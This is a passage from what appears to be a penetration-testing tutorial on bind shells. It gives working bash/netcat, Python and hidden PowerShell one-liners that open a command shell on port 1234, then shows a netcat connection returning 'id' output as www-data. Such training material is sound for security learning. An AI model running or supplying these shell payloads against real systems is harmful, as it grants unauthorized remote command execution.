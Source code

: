 * * *

#### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/) to find a proper command to start our bind shell.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```

* * *

#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use `netcat` to connect to that port and get a connection to the shell:

```shell
nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

